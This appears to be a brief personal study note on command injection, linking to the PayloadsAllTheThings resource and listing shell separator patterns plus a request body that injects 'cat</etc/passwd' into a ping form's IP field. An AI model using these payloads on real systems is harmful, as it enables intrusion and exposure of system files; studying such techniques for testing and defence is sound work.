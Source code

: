 Payload all the things resource
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

#### Example 1
![[Pasted image 20220923092643.png]]

![[Pasted image 20220923092704.png]]

Taking logic from payload all the things, we should try these:

>
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail

![[Pasted image 20220923093359.png]]

```
test=ping&ip_address=64.227.35.202;cat</etc/passwd&submit=Test
```

![[Pasted image 20220923094148.png]]
